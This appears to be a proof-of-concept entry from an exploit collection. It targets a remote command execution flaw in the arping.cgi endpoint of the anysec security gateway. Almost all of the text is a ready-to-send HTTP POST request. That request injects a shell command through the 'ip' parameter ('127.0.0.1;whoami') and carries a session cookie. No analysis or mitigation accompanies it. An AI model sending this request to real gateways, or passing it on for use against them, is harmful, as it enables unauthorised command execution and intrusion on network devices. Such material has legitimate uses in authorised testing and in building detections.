 # zkww_arping.cgi_rce

from: https://github.com/wy876/POC/blob/main/%E4%B8%AD%E7%A7%91%E7%BD%91%E5%A8%81%E7%A7%91%E6%8A%80/%E4%B8%AD%E7%A7%91%E7%BD%91%E5%A8%81anysec%E5%AE%89%E5%85%A8%E7%BD%91%E5%85%B3arping%E5%AD%98%E5%9C%A8%E5%90%8E%E5%8F%B0%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
product: 中科网威anysec安全网关

```
POST /cgi-bin/system/arping.cgi HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Connection: keep-alive
Cookie: CGISID=2ZuEDPfh3Yxu6hyiAmyZpxIHymc9vSfxGJbcqhtl8RP51; sdmenu_my_menu=100000000
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: frame
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

moduleid=150&tasknum=1&ip=127.0.0.1;whoami&interface=wan0&count=4&sip=8.8.8.8&x=58&y=16
```
